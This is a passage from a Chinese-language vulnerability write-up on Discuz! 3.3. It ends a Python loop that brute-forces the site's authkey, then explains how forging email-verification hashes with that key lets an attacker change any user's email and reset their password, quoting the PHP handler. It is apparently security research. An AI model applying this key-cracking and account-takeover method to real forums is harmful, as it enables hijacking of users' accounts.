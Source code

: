 ```
		for s in s_list:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[*] found used time: " + str(time.time() - s_time)
				return "[*] authkey found: " + authkey

print main()
```

差不多1小时左右就能得到结果。

![image.png-46.3kB][7]
![image.png-107.4kB][8]

返回结果一致，成功得到authkey。

那么问题来了，通过获得authkey，我们能干什么，这里举一个修改任意用户邮箱的例子，通过修改邮箱，我们可以使用忘记密码功能来重置任意用户的密码。

当我们申请修改邮箱的时候，我们会受到一封类似于下面这样的邮件。
![image.png-61.4kB][9]

验证链接类似于
```
http://127.0.0.1/dz3.3/home.php?mod=misc&ac=emailcheck&hash=0eb7yY2wtS1q16Zs2%2BtSkR6w5O%2Fx6jdLbu0FnWbegB8ixs2Y6tfcyAnrvz4yPIE7pKzoqawU0ku47y4F
```

跟入`/source/include/misc/misc_emailcheck.php` 代码如下：
```
<?php

/**
 *      [Discuz!] (C)2001-2099 Comsenz Inc.
 *      This is NOT a freeware, use is subject to license terms
 *
 *      $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
 */

if(!defined('IN_DISCUZ')) {
	exit('Access Denied');
}

$uid = 0;
$email = '';
$_GET['hash'] = empty($_GET['hash']) ? '' : $_GET['hash'];
if($_GET['hash']) {
	list($uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
	$uid = intval($uid);
}
// exit($email);
if($uid && isemail($email) && $time > TIMESTAMP - 86400) {

	$member = getuserbyuid($uid);
	$setarr = array('email'=>$email, 'emailstatus'=>'1');
	if($_G['member']['freeze'] == 2) {
		$setarr['freeze'] = 0;
	}
	loaducenter();
	$ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);

	if($ucresult == -8) {
		showmessage('email_check_account_invalid', '', array(), array('return' => true));
```

  [1]: http://static.zybuluo.com/LoRexxar/27by3pv6j16qauhgebbrapvr/image.png
  [2]: http://static.zybuluo.com/LoRexxar/vd44ejapmbdfwnq8z8vklxb1/image.png
  [3]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [4]: http://static.zybuluo.com/LoRexxar/737c9gqg6cdtlo4aryxpnxwe/image.png
  [5]: http://static.zybuluo.com/LoRexxar/fu70qeqhk55gw55xm0qwkbk2/image.png
  [6]: http://static.zybuluo.com/LoRexxar/fdmabv7avbqd1w5libd3j0g3/image.png
  [7]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [8]: http://static.zybuluo.com/LoRexxar/fmwrfzfbm4jjrv1nsm8e92r0/image.png
  [9]: http://static.zybuluo.com/LoRexxar/n882uz5x3qrymr6ljsb89brm/image.png
  [10]: http://static.zybuluo.com/LoRexxar/dgu0bdnhje2u2caxy0q5bmgs/image.png
  [11]: http://static.zybuluo.com/LoRexxar/4q78iyn4bndzmtarrcrk43wn/image.png
  [12]: http://static.zybuluo.com/LoRexxar/ivok9agi1lurxhe4xkst4vyj/image.png
  [13]: http://static.zybuluo.com/LoRexxar/cipp76y0aw4wz33z3c7ambth/image.png
  [14]: http://static.zybuluo.com/LoRexxar/jeddzeumksc2zm7ioph0ybk3/image.png
  [15]: http://static.zybuluo.com/LoRexxar/g0fipnw0vrrsojjmnfsc9mtg/image.png
  [16]: http://static.zybuluo.com/LoRexxar/vl37a7f8giy88mbhndxkbb9x/image.png